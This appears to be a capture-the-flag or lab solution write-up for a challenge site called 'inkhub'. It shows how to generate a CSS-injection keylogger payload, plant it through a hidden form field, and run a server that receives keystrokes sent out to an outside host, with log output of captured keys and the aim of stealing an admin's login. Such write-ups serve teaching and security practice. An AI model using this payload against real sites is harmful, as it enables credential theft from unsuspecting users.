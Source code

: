 # Solution

A provided PoC is placed in [./css-keylogger](./css-keylogger). Here's a quick boiler-place set of commands to set things up.

```
cd ./css-keylogger
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

Now follow these instructions:

- Generate css keylogger payload using the helper script `make-css-keylogger.py` providing your .

    ```
    python make-css-keylogger.py http://172.22.209.203:3000
    ```

- The above command should create two files: `keylogger.css` and `injection-string.txt`. The `injection-string.txt` 
is a wrapper injection string around the content of `keylogger.css`.

- Goto the inkhub website, login as `user`, and open the share-quote modal.
  1. Fill the quote text with an _inspiring quote_ "Pwned by css. Pwned by css. Pwned by css. Pwned by css.".
  2. Unhide the `new-quote-color` field.
  3. Copy and paste the content of `injection-string.txt` into the `new-quote-color` field, and submit.
  ![](imgs/css-injection-vector.png)
  
- Confirm that the injection went through by checking `styles.css`
  ![](imgs/css-injection-confirmation.png)

- Start the keylogger `server.py` to capture logged keystrokes (you can test it locally).
    ```
    python server.py
    ``` 
- The output looks like this when keystrokes are captured.
    ```
     * Serving Flask app 'server'
     * Debug mode: off
    WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
     * Running on all addresses (0.0.0.0)
     * Running on http://127.0.0.1:3000
     * Running on http://172.22.209.203:3000
    Press CTRL+C to quit
    Received 'key' value: s
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=s HTTP/1.1" 200 -
    Received 'key' value: e
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=e HTTP/1.1" 200 -
    Received 'key' value: r
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=r HTTP/1.1" 200 -
    Received 'key' value: u
    172.22.208.1 - - [17/Nov/2024 02:47:53] "GET /?key=u HTTP/1.1" 200 -
    ```
- All keystrokes will be saved to `keystrokes.txt`. Now wait for the admin to login... 
```
watch cat keystrokes.txt
```